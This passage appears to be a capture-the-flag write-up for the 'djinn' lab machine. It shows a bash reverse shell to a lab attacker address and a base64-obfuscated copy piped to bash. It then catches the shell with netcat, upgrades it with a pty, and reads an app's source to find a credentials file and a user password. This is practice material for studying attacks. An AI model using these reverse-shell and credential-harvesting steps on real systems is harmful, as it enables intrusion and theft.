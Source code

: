 ![](media/d0909dff79983f3350a2c30561877c22.png)

Original Reverse Shell:

bash -i \>& /dev/tcp/192.168.211.146/443 0\>&1

Encoded Reverse Shell:

echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xNDYvNDQzIDA+JjEK \| base64 -d
\| bash

### Catching & Upgrading Reverse Shell

lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.211.146] from (UNKNOWN) [192.168.211.145] 43218

bash: cannot set terminal process group (719): Inappropriate ioctl for device

bash: no job control in this shell

www-data\@djinn:/opt/80\$ python -c "import pty; pty.spawn('/bin/bash')"

python -c "import pty; pty.spawn('/bin/bash')"

www-data\@djinn:/opt/80\$ echo \$HOSTNAME

echo \$HOSTNAME

djinn

### Discovering Possible Credentials

www-data\@djinn:/opt/80\$ ls

ls

app.py app.pyc static templates

www-data\@djinn:/opt/80\$ cat app.py

cat app.py

import subprocess

from flask import Flask, redirect, render_template, request, url_for

app = Flask(__name__)

app.secret_key = "key"

CREDS = "/home/nitish/.dev/creds.txt"

www-data\@djinn:/opt/80\$ cat /home/nitish/.dev/creds.txt

cat /home/nitish/.dev/creds.txt

nitish:p4ssw0rdStr3r0n9

Switching to nitish user and obtaining user flag.
